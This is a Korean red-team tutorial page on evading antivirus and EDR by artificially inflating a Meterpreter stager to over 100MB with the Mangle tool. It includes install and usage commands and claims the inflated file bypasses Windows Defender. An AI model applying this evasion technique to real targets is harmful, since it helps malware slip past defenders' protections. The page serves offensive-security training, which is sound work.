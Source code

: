 # 페이로드 크기

AV/EDR 솔루션들은 사용자 경험을 해치지 않고 CPU와 램 사용량을 줄이기 위해 크기가 큰 파일은 무시하거나 스캔을 최소화하는 경향이 있다. 예를 들어 1MB 이하의 페이로드들은 머신 러닝, 유저랜드 후킹, 커널 콜백 함수, 인-메모리 스캔 등의 최신 기법을 사용해 탐지하지만, 100MB 이상의 PE 파일들은 무시한 채 실행되도록 내버려둔다.&#x20;

때문에 레드팀 작전 수행 중 어쩔 수 없이 온-디스크에 페이로드를 다운 받아 실행해야하는 경우 페이로드의 크기를 인위적으로 키워 AV/EDR 솔루션들을 우회할 수 있다.&#x20;

옛날에는 크기가 큰 페이로드들이 기피되었지만, 단 몇 초 만에 100메가를 다운받을 수 있게 된 2022년도 기준으로는 충분히 초기 침투 단계에서 사용될 수 있다. 단, 피싱 프리텍스트를 더 조심스럽게 짜야된다는 점과 온-디스크에 PE 파일을 다운 받아야 한다는 단점은 여전히 존재한다.&#x20;

\---&#x20;

페이로드 크기의 영향은 런타임 분석 뿐만 아니라 정적 분석에도 영향을 미친다. 예를 들어 Meterpreter 쉘코드를 실행 하는 아주 기본적인 스테이저 코드를 만들어 바이러스 토탈에 업로드를 해보면, 14/66 탐지 결과가 나온다.&#x20;

![](<../.gitbook/assets/image (10) (1) (1).png>)

그러나 똑같은 페이로드를 인위적으로 크기를 110메가바이트까지 늘린 뒤 첨부하면 11/60이 나온다.&#x20;

![](<../.gitbook/assets/image (6) (1).png>)

### 실습&#x20;

실습에 사용할 페이로드는 Meterpreter 쉘코드를 현재 프로세스에 로드해 실행하는 C# 기반의 .NET 어셈블리다. [오피스-매크로.md](../초기침투/피싱-첨부파일/오피스-매크로.md "mention") 페이지에서도 사용했던 페이로드다. 이를 PE 바이너리 형태로 다운받아 실행시키면, 당연히 윈도우 디펜더에 걸린다.&#x20;

![](../.gitbook/assets/meter-caught.gif)

이제 페이로드 크기를 키운 뒤 다시 시도해보자. 페이로드 크기를 인위적으로 늘려주는 [Mangle](https://github.com/optiv/Mangle) 툴을 설치한 뒤 사용해 페이로드의 크기를 키운다. &#x20;

```
# 툴 설치 
git clone https://github.com/optiv/Mangle.git
go env -w GO111MODULE=off
go get -v github.com/Binject/debug
go build Mangle.go 

# 툴 사용 
./Mangle -I /root/blog/MeterStager.exe -O MeterStager-inflated.exe -S 110

└─# ls -alh 
total 113M
-rwxr-xr-x  1 root root 2.2M Jun 23 00:19 Mangle
-rw-r--r--  1 root root 4.9K Jun 23 00:07 Mangle.go
-rwxr-xr-x  1 root root 111M Jun 23 00:23 MeterStager-inflated.exe
```

이후 페이로드를 타겟 호스트에 옮겨 실행시키면 윈도우 디펜더를 우회한 채 페이로드가 제대로 실행된다.&#x20;

![](../.gitbook/assets/meter-inflated-bypass-defender.gif)

### 레퍼런스&#x20;

{% embed url="https://github.com/optiv/Mangle" %}

{% embed url="https://twitter.com/Tyl0us/status/1539651216338464768" %}
